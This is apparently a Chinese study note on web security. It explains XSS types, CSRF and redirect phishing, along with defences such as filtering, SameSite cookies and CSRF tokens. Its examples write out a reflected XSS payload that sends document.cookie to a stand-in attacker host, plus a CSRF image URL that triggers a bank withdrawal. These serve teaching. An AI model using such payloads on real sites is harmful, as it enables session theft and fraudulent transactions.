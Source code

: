 # xss

被注入恶意脚本，然后被前端所执行，导致的危害。

## 反射型

非持久化，每次触发都需要用户去点击（伪造的url）。

## 存储型

持久化，将恶意代码录入到数据库中。

## dom型

纯前端导致的，不经由后端，不做考虑。

## 区别

反射和存储，都经过后端。

反射：会将用户输入的内容，经由一定的业务，联同输入的内容一起返回。

存储：会将恶意代码存储在数据库。

dom：纯前端，获取用户输入，然后又作为html输出。

## 案例

1. 一个正规的网站（银行网站`www.yinhang.com`）存在反射型xss。
2. 黑客利用这个漏洞，并调整url参数，使得访问该网址时执行一个js脚本：` www.yinhang.com/interface?name=<script>window.open('http://www.heike.com?cookie='+document.cookie)</script>`。
3. 自己编写一个网站`www.heike.com`，用于接收js脚本发起的请求来获取cookie
4. 拿到cookie，利用该cookie，伪装自身进行一系列非法操作。

黑客的网址接收到这个cookie，即可通过这个cookie来访问银行网址。做出非法的操作。

## 危害

1. cookie被窃取，以至于被伪造个人信息。
2. 被动攻击其他网站。
3. 执行恶意脚本，影响体验。

## 解决

1. 输入过滤。（对明确输入类型数字、URL、电话号码、邮件地址，可以采用输入过滤。对不确定输入类型，直接采用过滤，会引起不确定性。如用户昵称：小明\<xm 结果被过滤为 `小明&lt;xm`）
2. 白名单限制。
3. 防止浏览器执行恶意代码来防范 XSS

因此，所有的用户输入的内容在输出时，都必须进行过滤。或者将其作为一个纯文本执行，而非html代码执行。

## 总结

xss简单的说就是用户的注入，然后显示（存储后显示给其他，直接显示）出来。如果显示的时候过滤了，那不就行了。

1. 如果是富文本编辑，那么必然存在标签，不能过滤，只能在将这个内容显示时，用纯文本显示，而非html文本显示。
2. 如果是有严格要求，则禁止录入任何标签，或者直接过滤掉标签。

# csrf

并不能窃取信息，而是冒用用户信息（借助第三方cookie），进行非法操作。

## 案例

```js
   1. 用户打开浏览器，访问受信任银行网站，输入用户名和密码请求登录网站；
   2.在用户信息通过验证后，银行网站产生Cookie信息并返回给浏览器，此时用户登录网站成功，可以正常发送请求到网站；
   3. 用户未退出银行网站之前，在同一浏览器中，打开一个TAB页访问其他网站B
   4. 这时候网站B 已被黑客注入诱导信息，加入是一张图片,图片地址指向
     src=”http://bank.example/withdraw?account=bob&amount=1000000&for=黑客
     点击之后转账给黑客这个账户
   5. 浏览器在接收到这些攻击性代码请求后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，根据用户的Cookie信息以C的权限处理该请求，导致来自黑客请求恶意代码被执行。 
```

## 危害

伪造真实用户，对存在漏洞的接口进行调用，比如转账，信息传递等。

## 解决

### samesite cookie 

csrf是利用第三方cookie，那么从cookie的samesite属性来防止csrf。

同站是指（有效顶级域名+1）比如有效顶级域名为`.com .github.io` 等

`www.taobao.com`和`www.test.taobao.com`就是同站，因为有效顶级域名+1 是一致的。

`test.github.io`和`tmp.github.io`不是同站，因为只有顶级域名一致。

![img](image\1460000022055677)

详细内容：https://blog.csdn.net/MeituanTech/article/details/83023558

### 同源检测 （referer）

https://blog.csdn.net/MeituanTech/article/details/98745561?spm=1001.2014.3001.5501

### csrf token

从egg-security的源码

### 双重cookie验证 

因为csrf攻击，是hk只能够利用第三方cookie，但无法知道cookie的具体值。因此可以利用双重cookie。

1. 第一次访问时，在cookie存放一个token。
2. 后续所有写请求，都在url或body上存放cookie中token。服务器校验两个token的值。

详细内容：https://blog.csdn.net/MeituanTech/article/details/83023558

# 钓鱼

是指从一个可信任的网站，被hk利用漏洞，使得用户从可信任网站跳转到一个非法网站。

这里讲的是服务漏洞导致的钓鱼，而不是操作系统漏洞导致的。

## url钓鱼

ctx.redirect  。egg-security插件对该方法进行了重写。使得对跳转的url进行白名单校验。

## 图片钓鱼

## iframe钓鱼


